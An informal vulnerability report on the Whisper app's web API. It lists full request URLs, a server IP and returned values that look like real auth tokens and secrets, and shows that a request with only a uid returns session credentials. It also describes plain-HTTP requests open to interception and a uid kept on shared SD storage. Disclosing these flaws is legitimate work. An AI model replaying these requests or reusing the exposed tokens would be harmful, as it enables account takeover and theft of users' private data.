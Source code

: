 <h1>Whisper.sh</h1>
<hr>
<h3>Vulnerabilty report</h3><h5>Shhhh :)</h5>


`whisper.sh (52.35.240.11)`

I navigated to the root folder of whisper and found out this line: 

`https://prod.whisper.sh/messaging/conversations/tt_auth?uid=054bb65e915bc0e0d914c78601a47f1a47f418&nonce=4K04VM54DCIQ6BTIMLCR80JU8G&auth_token=da95c077b910506066d9b228cf9a44adc8558091&locale=it_it`

To initialize a new session on whisper we need to : 

`https://prod.whisper.sh/user/new`

the website replies with : 


```
{
  "token":"50d38783f8757693a3ab6dc87da7ea47",
  "expected":6
}
```

This token is used to initialize a new user session

As you can notice the app is passing some tokens and other stuff to the web server... 

I was curious... :D So I tried to make a request without passing anything but the uid! 

`https://prod.whisper.sh/messaging/conversations/tt_auth?uid=054bb65e915bc0e0d914c78601a47f1a47f418`

Guess what! :D 

```
{
      "tt_token":"e57b919a-179c-44fc-9192-5bae0116fe3d",
      "tt_key":"scOoe4cjJCCOJyOsDoizyx3qXEbBS6M6",
      "tt_secret":"JouBYOcZs1cfS9sD4T8ewCJ4cmFX3twiWERLT2JmdfvlEdgk"
}
```

<h1>Steal User data</h1>

`http://prod.whisper.sh/whisper/shortened/050f8caaca77a378697952b178afb1946582f6?uid=050f8c29de55a0828128c911a15637acba77`

You'd expect this app to have a strict HTTPS online policy... Nope ;) 

HTTPS only if its ok, if not... HTTP! :) 

You'd expect this website to create shorten url without needing to embed a user id right? And you'r wrong ;) 

Then you get your shorten URL: 

```
{
    "short_url":"http://whisper.sh/w/wumfb87"
}
```


Obivously is possible to run a man in the middle attack and steal data ;) 

<hr>

<h1>Coincidences ?</h1>

I unistalled the Whisper app... But changed my mind! 

AND VOILA! 
My username was still there... Why? 
And how? 

I unistalled the app again and blocked the whisper IP on my router. 
Still working... 

The solution? 

It is storing the UID on the extSdCard. 

So basically every app can access to that memory and steal the uid too. 

*Great! :D*





